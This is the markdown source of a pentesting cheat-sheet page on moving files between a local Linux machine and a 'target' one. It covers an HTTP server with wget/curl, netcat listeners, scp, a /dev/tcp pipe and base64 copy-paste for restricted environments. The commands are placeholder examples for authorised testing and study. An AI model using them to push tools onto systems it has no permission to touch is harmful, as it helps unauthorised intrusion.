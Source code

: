 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["file transfer", "nc", "scp"]
---
```


{{< tab set1 tab1 active >}}HTTP{{< /tab >}}
{{< tab set1 tab2 >}}nc{{< /tab >}}
{{< tab set1 tab3 >}}scp{{< /tab >}}
{{< tab set1 tab4 >}}PIPE{{< /tab >}}
{{< tab set1 tab5 >}}Base64{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Start a local HTTP server
python3 -m http.server <LOCAL_PORT>
```

```console
# In target Linux machine
wget <LOCAL_IP>:<LOCAL_PORT>/<FILE>
```

```console
# In target Linux machine
curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o <REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# In our local Linux machine
nc -lvnp <LOCAL_PORT> < <FILE>
```

```console
# In target Linux machine
nc -w3 <LOCAL_IP> <LOCAL_PORT> > <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### Remote to Local

```console
# With password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

#### Local to Remote

```console
# With password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```console
# With id_rsa
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

#### Local to Remote

```console
# In our local Linux machine
cat <FILE> | nc -lnvp <LOCAL_PORT>
```

```console
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/<LOCAL_PORT>
```

```console
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```console
# Check
md5sum <FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

#### Small binary

```console
# Base64 encode binary
cat <FILE> | base64 -w0
```

```console
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>

{{< /tabcontent >}}
